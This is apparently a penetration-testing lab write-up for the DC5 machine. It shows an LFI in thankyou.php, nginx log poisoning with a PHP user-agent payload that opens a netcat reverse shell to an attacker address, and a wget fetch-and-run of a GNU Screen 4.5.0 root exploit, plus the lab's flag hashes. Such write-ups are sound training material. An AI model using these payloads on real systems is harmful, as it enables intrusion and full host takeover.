


# DC5

**IP Address:** 192.168.90.26

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:--------|
| 80 | http | nginx 1.6.2 |
| 111 | rpcbind | 2-4 (RPC #100000) |

## Exploitation
### Exploit Details (LFI)
* **Name** - N/A
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

The page http://192.168.90.26/thankyou.php is vulnerable to LFI. 

1. Fuzz the page & we see a response for the file parameter

Commands
```
wfuzz --hh 851 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt -u http://$ip/thankyou.php?FUZZ
```


2. Test a basic LFI injection for /etc/passwd file. http://192.168.90.26/thankyou.php?file=/etc/passwd



3. We also find an available log file for nginx http://192.168.90.26/thankyou.php?file=/var/log/nginx/access.log


4. Now we can poison the log using the user agent string and initiate the reverse shell. 

Commands
```
curl -A "<?= system('nc -nv 192.168.49.90 53 -e /bin/sh'); ?>" http://$ip
curl http://192.168.90.26/thankyou.php?file=/var/log/nginx/access.log
```


5. We can now catch the reverse shell. 

Commands
```bash
whoami
cat /home/dc/local.txt
```


## Privilege Escalation
### Exploit Details (Searchsploit)
* **Name** - GNU Screen 4.5.0 - Local Privilege Escalation 
* **CVE** - N/A
* **Module** - linux/local/41154.sh
* **Disclosed** - 2017-01-25 
* **References**
  * https://www.exploit-db.com/exploits/41154

Commands
```bash
wget http://$lhost/linux/exploits/suid/41154.sh; chmod +x 41154.sh; ./41154.sh
whoami
cat /root/proof.txt
```


## Loot
```
local.txt
b03ab84722a9d0bc728f9a848345fad6
proof.txt
8d28302c542009b267924426a7cbf11d
```